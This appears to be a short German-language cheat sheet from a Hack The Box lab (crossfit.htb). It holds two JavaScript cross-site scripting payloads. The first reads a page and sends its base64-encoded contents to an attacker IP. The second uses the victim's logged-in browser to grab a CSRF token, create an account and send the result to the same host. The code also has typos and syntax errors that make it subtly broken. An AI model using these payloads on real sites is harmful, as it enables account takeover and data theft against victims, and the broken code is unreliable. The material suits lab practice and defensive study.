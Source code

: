 # XMLHttpRequest
## XMLHttpRequest um eine Webpage zu erhalten
```js
var target = 'http://ftp.crossfit.htb/accounts/create'
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('GET', http://10.10.14.4/' +btoa(response), true);
req2.send();
```

## XSS benutzt XMLHttpRequest um den VictimsBrowser als Proxy zu nutzen
Ausführlich im [Holiday](https://www.youtube.com/watch?v=FvHyt7KrsPE) Video erklärt oder im [Crossfit](https://www.youtube.com/watch?v=Z3Lj_YN0crc) Video von IppSec.

```js
var target = 'http://ftp.crossfit.htb/accounts/create';
var req1 = new XMLHttpRequest();

req1.open('GET', target, false);
req1.withCredentials = true;
req1.send();

var respnse = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, "text/html");
var token = doc.getElementsByName('_token')[0].value;

var req2 = new XMLHttpRequest();
var params = "username=fuchs&pass=fuchsbau&_token=" +token;

req2.open('POST', 'ftp.crossfit.htb/accaunts', false);
req2.withCredentials = true;
req2.setRequestHeader('Conent-Type', 'application/x-www-form-urlencoded');
req2.send(params);
var response2 = req2.responseText;

var req3 = new XMLHttpRequest();
req3.open('GET', 'http://10.10.14.4/' # btoa(response2), true);
req3.send();


```
